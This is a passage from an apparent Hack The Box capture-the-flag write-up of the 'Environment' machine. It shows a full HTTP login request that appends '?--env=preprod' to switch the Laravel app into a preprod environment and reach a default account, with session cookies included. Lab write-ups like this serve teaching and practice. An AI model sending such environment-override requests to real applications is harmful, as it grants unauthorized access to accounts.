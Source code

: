 gives me an interesting result:

![alt text](note/ctf/asset/HTB_environment.png)

there is a preprod environment that I can exploit and I have exactly the method with the previous link by adding ?--env=preprod to get access to a default account!

```
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 102
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login?error=Invalid%20credentials.
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InlYbmdLRlV2K1I3SERiSHYyZ25DbWc9PSIsInZhbHVlIjoiV0d3Z0pYc0xzSDNpOGdsYmpzbHNHempVeWhRNk1QODUxdUNySUlRYmoxTFNYa25rZkFPUXhYZ0F4TVZzMHAxTTZVc3hNSXBSRFR4ZUN2MFBWdUtEeDYvc2JPNWJMVlFidzdXeGNyS2FGYktBek5WUHFTRGlJem9tWVVicDlvdVgiLCJtYWMiOiJhMGUyZmRhOWFmM2ViMWY4ZWFhZTViNWE1ZWY4ZTdiNzRiNDI0ZTFmNzlkYzJjZmU4NjFkNDNkMWU3ZGI5MTE2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFSQWdyVzkvMXlmY2lEQkd1bHBIUUE9PSIsInZhbHVlIjoidzlROGh6MEpvWjBHZ2tNMlpPTEJhSFFGQWhiVitMNjRYZGxleFBpc3BGVmVQZFRXVWxkZTlKTEREc2JFRjdTbTVGTmw2YUsxMFIwNktCRjlIZmJXS016c01ZOEtWanNjdjZJZkpqTERSWGJwQzVMU3J0ZjBoUVRLYm5EK2pOcHgiLCJtYWMiOiIyYTYxMDRjMjI4OWI4YmE3YmM5M2RjMWQzODRhYjk4MjUzNWQ3N2I2ZTYxYmEyMzlhYjNkODZlZGMwOGFlOTg0IiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=1IhwKwvK9nfTjBaYQFD94CyJiTivdTCWEpt5GTXD&email=zeroz1337%40dot.com&password=test&remember=False
```
